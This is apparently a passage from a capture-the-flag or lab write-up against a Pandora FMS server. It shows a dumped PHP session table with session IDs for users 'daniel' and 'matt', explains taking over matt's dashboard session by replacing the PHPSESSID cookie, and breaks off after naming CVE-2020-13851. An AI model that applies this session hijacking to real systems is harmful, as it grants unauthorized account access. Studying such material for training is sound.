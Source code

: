 
There is a `tsessions_php` table lets to the same.


```bash
[59 entries]
+----------------------------+------------------------------------------------------+-------------+
| id_session                 | data                                                 | last_active |
+----------------------------+------------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                             | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                 | 1638789018  |
| 0qg7gms27ash6cbpvq6acp901t | NULL                                                 | 1653738015  |
| 1cq3ela4hiscf9d9qajhntq2k1 | NULL                                                 | 1653737956  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                 | 1638792211  |
| 21e8enmvopuoeb8r44q7o34hik | NULL                                                 | 1653737679  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                 | 1638786129  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                             | 1638540332  |
| 36n1kllgd0bh31f9rerm97gbcm | NULL                                                 | 1653736273  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                 | 1638795380  |
| 3s03i6t3h6v845tkkig6c09j1s | id_usuario|s:6:"daniel";                             | 1653737556  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                 | 1638786842  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                             | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                 | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                 | 1638792685  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                             | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                             | 1641195617  |
| 7k3516hk2n20od1bhupf2bafri | NULL                                                 | 1653737430  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                 | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                             | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                 | 1638787267  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                             | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                 | 1638795315  |
| a6s0p2o00rgo3io868lo5p1une | NULL                                                 | 1653738082  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                             | 1638881664  |
| b1fva3f8svoulqhfjmcuf2f00f | id_usuario|s:6:"daniel";                             | 1653736657  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                 | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                 | 1638786277  |
| d28798b394ickeqmnfc4q12fkb | NULL                                                 | 1653738044  |
| d8nm5tl88u5n8274it7acl65ko | NULL                                                 | 1653738003  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                             | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                 | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                 | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                             | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0;  | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                 | 1638786349  |
| gg7tint1mddo1ou25dqo9p15fh | NULL                                                 | 1653735060  |
```
Nice! so there is matt session ID here. copy it and replace ``PHPSESSID`` cookie with it, and we are in the dashboard as matt

There is a bunch of CVE's that could works.
### [CVE-2020-13851](https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities)
